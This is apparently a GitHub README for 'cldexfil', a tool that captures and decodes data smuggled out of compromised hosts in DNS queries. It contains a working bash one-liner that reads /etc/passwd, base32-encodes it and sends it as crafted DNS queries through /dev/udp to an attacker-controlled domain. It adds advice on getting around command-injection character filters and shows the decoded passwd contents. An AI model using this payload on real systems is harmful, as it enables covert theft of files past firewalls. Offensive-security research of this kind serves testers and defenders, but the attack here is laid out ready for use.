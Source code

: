# cldexfil
Client-Less Data Exfiltration over DNS

`cldexfil` is a bare-simple tool to passively read exfiltrated data on DNS
queries. It listens and captures specially crafted Domain Name System (DNS)
queries on an interface of your choosing, decode and print them on your screen.

At this time of writing [cldexfil.py](cldexfil.py) is relatively limited
feature-wise, but as new client-less exfiltration methods (see Exfiltration
methods below) will be experimented, more features will be added.


## Why?
Very frequently you cannot easily get a shell and directly exfiltrate data from
a compromised target, thanks to blind command injections, NGFWs and WAFs among
other things. What is left to you is a bare host environment (or an hardened
version) with the only capability to send DNS queries to the organization's DNS
forwarder(s). This is a very common scenario in today's _secured_ networks where
hosts rely solely on DNS resolutions to perform their tasks.

During some experiments, I found out that most Linux and Unix environments
ships with all the necessary tools to craft valid DNS queries and therefore,
attackers (presumably you with good intents) can exfiltrate valuable information
through the (frequently trusted) DNS channel.

`cldexfil` can tolerate and compensate for base32 padding issues, however it
does not differentiate legitimate DNS queries from forged ones.


## Exfiltration methods
Several client-less exfiltration methods do exist, one particularly useful and
which has been the catalyst to the creation of this tool is the use of the
bash's `/dev/udp redirection` feature to craft valid DNS queries. The latter are
forwarded by the host's trusted forwarder(s) to the authoritative DNS server you
control (or for which you can intercept traffic).

Let's see an example of a one-liner bash command which can be used as a payload.
The below command uses the `base32`, `echo` and `cat` commands combined, all are
part of GNU coreutils, the latter is included in the base install of many Linux
distributions:
```
$ cat /etc/passwd | base32 -w63 | while read E; do ( echo -ne "\x7a\x69\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x3f" && echo -n $E && echo -ne "\x04\x74\x6f\x6f\x72\x02\x73\x69\x00\x00\x01\x00\x01" ) | cat > /dev/udp/8.8.8.8/53; done
```

The first command concatenates and prints the content of the `/etc/passwd` file
on standard output. It's then piped to the `base32` utility so 63-bytes names
are created and read individually. For every lines (or names), the `echo`
command produces a DNS query and send it through the shell `/dev/udp`
pseudo-device, to the specified DNS forwarder.

Worth mentioning is the fact the binary string passed to the first `echo`
command includes the `recursion desired` bit set and an hard-coded transaction
id. The last `echo` command includes the domain name, the class and type of the
query; above `A` records were used (0x1) within the `IN` class (0x0001).

Please note the above queries' length are hard-coded to 63 bytes (0x3F),
therefore the last created hostname will probably not be aligned on a 63 bytes
boundary and it will results in a malformed DNS query.

In presence of command injection vulnerabilities you frequently have a list of
bad characters you cannot inject, such as the semi-colon `;` or the back-slash
`\\`, the above example is of no use in such cases, and alternative characters
or command expressions may be needed. Also keep in mind that most methods
described here, do not provide data confidentiality and integrity.

The above command can certainly be optimized and has room for improvements via
additional experimentations. `cldexfil` supports variable-length queries as soon
as the sub-domain can be extracted and decoded using base32. The python script
has been deliberately kept simple for these reasons.

Also keep in mind that reliability and behaviors may vary from implementations
to implementations, and between shells versions.


## Practical examples
`cldexfil` can be used in a lot of exploitation scenarios. This project's
[wiki](https://github.com/e3prom/miscsec/wiki/cldexfil) includes a few practical
examples of *client-less* data exfiltration over DNS through the exploitation of
well known vulnerabilities such as RCEs.


## Dependencies
 * Python 2.7
 * Scapy (https://github.com/secdev/scapy)


## Running
Simply run [cldexfil.py](cldexfil.py) by specifying the network interface you
want to listen on (may require root privilege). The tool will passively extract
DNS queries (a source can optionally be given with the '-s' switch) and decode
them to standard output.

```
$ sudo ./cldexfil/cldexfil.py -s 8.8.8.8 --verbose eth0
[*] listening on eth0 for DNS queries
[*] hit CTRL-C to decode data received
Ether / IP / UDP / DNS Qry "OJXW65B2PA5DAORQHJZG633UHIXXE33POQ5C6YTJNYXWEYLTNAFGIYLFNVXW4OT.toor.si."
Ether / IP / UDP / DNS Qry "YHIYTUMJ2MRQWK3LPNY5C65LTOIXXGYTJNY5C65LTOIXXGYTJNYXW433MN5TWS3.toor.si."
Ether / IP / UDP / DNS Qry "QKMJUW4OTYHIZDUMR2MJUW4ORPMJUW4ORPOVZXEL3TMJUW4L3ON5WG6Z3JNYFHG.toor.si."
Ether / IP / UDP / DNS Qry "6LTHJ4DUMZ2GM5HG6LTHIXWIZLWHIXXK43SF5ZWE2LOF5XG63DPM5UW4CTTPFXG.toor.si."
Ether / IP / UDP / DNS Qry "GOTYHI2DUNRVGUZTIOTTPFXGGORPMJUW4ORPMJUW4L3TPFXGGCTHMFWWK4Z2PA5.toor.si."
Ether / IP / UDP / DNS Qry "DKORWGA5GOYLNMVZTUL3VONZC6Z3BNVSXGORPOVZXEL3TMJUW4L3ON5WG6Z3JNY.toor.si."
Ether / IP / UDP / DNS Qry "FG2YLOHJ4DUNR2GEZDU3LBNY5C65TBOIXWGYLDNBSS63LBNY5C65LTOIXXGYTJN.toor.si."
Ether / IP / UDP / DNS Qry "YXW433MN5TWS3QKNRYDU6B2G45DOOTMOA5C65TBOIXXG4DPN5WC63DQMQ5C65LT.toor.si."
Ether / IP / UDP / DNS Qry "OIXXGYTJNYXW433MN5TWS3QKNVQWS3B2PA5DQORYHJWWC2LMHIXXMYLSF5WWC2L.toor.si."
Ether / IP / UDP / DNS Qry "MHIXXK43SF5ZWE2LOF5XG63DPM5UW4CTOMV3XGOTYHI4TUOJ2NZSXO4Z2F53GC4.toor.si."
Ether / IP / UDP / DNS Qry "RPONYG633MF5XGK53THIXXK43SF5ZWE2LOF5XG63DPM5UW4CTVOVRXAOTYHIYTA.toor.si."
Ether / IP / UDP / DNS Qry "ORRGA5HK5LDOA5C65TBOIXXG4DPN5WC65LVMNYDUL3VONZC643CNFXC63TPNRXW.toor.si."
Ether / IP / UDP / DNS Qry "O2LOBJYHE33YPE5HQORRGM5DCMZ2OBZG66DZHIXWE2LOHIXXK43SF5ZWE2LOF5X.toor.si."
Ether / IP / UDP / DNS Qry "G63DPM5UW4CTXO53S2ZDBORQTU6B2GMZTUMZTHJ3XO5ZNMRQXIYJ2F53GC4RPO5.toor.si."
Ether / IP / UDP / DNS Qry "3XOORPOVZXEL3TMJUW4L3ON5WG6Z3JNYFGEYLDNN2XAOTYHIZTIORTGQ5GEYLDN.toor.si."
Ether / IP / UDP / DNS Qry "N2XAORPOZQXEL3CMFRWW5LQOM5C65LTOIXXGYTJNYXW433MN5TWS3QKNRUXG5B2.toor.si."
Ether / IP / UDP / DNS Qry "PA5DGOB2GM4DUTLBNFWGS3THEBGGS43UEBGWC3TBM5SXEORPOZQXEL3MNFZXIOR.toor.si."
Ether / IP / UDP / DNS Qry "POVZXEL3TMJUW4L3ON5WG6Z3JNYFGS4TDHJ4DUMZZHIZTSOTJOJRWIORPOZQXEL.toor.si."
Ether / IP / UDP / DNS Qry "3SOVXC62LSMNSDUL3VONZC643CNFXC63TPNRXWO2LOBJTW4YLUOM5HQORUGE5DI.toor.si."
Ether / IP / UDP / DNS Qry "MJ2I5XGC5DTEBBHKZZNKJSXA33SORUW4ZZAKN4XG5DFNUQCQYLENVUW4KJ2F53G.toor.si."
Ether / IP / UDP / DNS Qry "C4RPNRUWEL3HNZQXI4Z2F52XG4RPONRGS3RPNZXWY33HNFXAU3TPMJXWI6J2PA5.toor.si."
Ether / IP / UDP / DNS Qry "DMNJVGM2DUNRVGUZTIOTON5RG6ZDZHIXW433OMV4GS43UMVXHIORPOVZXEL3TMJ.toor.si."
Ether / IP / UDP / DNS Qry "UW4L3ON5WG6Z3JNYFHG6LTORSW2ZBNORUW2ZLTPFXGGOTYHIYTAMB2GEYDGOTTP.toor.si."
Ether / IP / UDP / DNS Qry "FZXIZLNMQQFI2LNMUQFG6LOMNUHE33ONF5GC5DJN5XCYLBMHIXXE5LOF5ZXS43U.toor.si."
Ether / IP / UDP / DNS Qry "MVWWIORPMJUW4L3GMFWHGZIKON4XG5DFNVSC23TFOR3W64TLHJ4DUMJQGE5DCMB.toor.si."
Ether / IP / UDP / DNS Qry "UHJZXS43UMVWWIICOMV2HO33SNMQE2YLOMFTWK3LFNZ2CYLBMHIXXE5LOF5ZXS4.toor.si."
Ether / IP / UDP / DNS Qry "3UMVWWIL3OMV2GSZR2F5RGS3RPMZQWY43FBJZXS43UMVWWILLSMVZW63DWMU5HQ.toor.si."
Ether / IP / UDP / DNS Qry "ORRGAZDUMJQGU5HG6LTORSW2ZBAKJSXG33MOZSXELBMFQ5C64TVNYXXG6LTORSW.toor.si."
Ether / IP / UDP / DNS Qry "2ZBPOJSXG33MOZSTUL3CNFXC6ZTBNRZWKCTTPFZXIZLNMQWWE5LTFVYHE33YPE5.toor.si."
Ether / IP / UDP / DNS Qry "HQORRGAZTUMJQGY5HG6LTORSW2ZBAIJ2XGICQOJXXQ6JMFQWDUL3SOVXC643ZON.toor.si."
Ether / IP / UDP / DNS Qry "2GK3LEHIXWE2LOF5TGC3DTMUFG2ZLTONQWOZLCOVZTU6B2GEYDIORRGA3TUORPO.toor.si."
Ether / IP / UDP / DNS Qry "ZQXEL3SOVXC6ZDCOVZTUL3CNFXC6ZTBNRZWKCSEMVRGSYLOFVSXQ2LNHJ4DUMJQ.toor.si."
Ether / IP / UDP / DNS Qry "GU5DCMJQHI5C65TBOIXXG4DPN5WC6ZLYNFWTIORPMJUW4L3GMFWHGZIKtoors."
^C
[*] Decoding exfiltrated data...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
messagebus:x:104:107::/var/run/dbus:/bin/false
Debian-exim:x:10
```


## Contribution
Feel free to share your contribution, if you feel inclined to.


## License
GNU General Public License v3.0
